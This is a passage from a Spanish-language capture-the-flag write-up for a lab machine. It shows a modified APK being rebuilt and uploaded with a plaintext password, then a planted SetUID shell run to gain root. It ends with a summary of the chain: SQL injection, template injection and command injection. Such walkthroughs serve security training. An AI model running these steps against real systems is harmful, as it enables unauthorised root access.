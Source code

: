 ```bash
java -jar apktool_2.6.1.jar b -f decomp/ -o modified.apk
```

#### Subida de la APK maliciosa

```bash
sshpass -p 's2#4Fg0_%3!' scp modified.apk will@10.10.11.150:/opt/mdm/apk_bin/
```

### Obtención de root

Después de un minuto, verificamos que el archivo SetUID se creó:

```bash
ls -la /tmp/test
```

Ejecutamos el shell con privilegios de root:

```bash
/tmp/test -p
```

```bash
test-5.0# id
uid=1000(will) gid=1000(will) euid=0(root) groups=1000(will)
```

¡Obtenemos acceso root y podemos leer la flag final!

---

## Resumen

Esta máquina involucró:
1. **Análisis de APK** para extraer tokens y descubrir subdominios
2. **Explotación de API** de Let's Chat para obtener credenciales
3. **SQL Injection** en Cachet para extraer API keys
4. **Server Side Template Injection** para obtener RCE
5. **Escalada de privilegios** mediante inyección de comandos en un script de procesamiento de APK

La máquina es excelente para practicar análisis de aplicaciones móviles y múltiples vectores de ataque web.

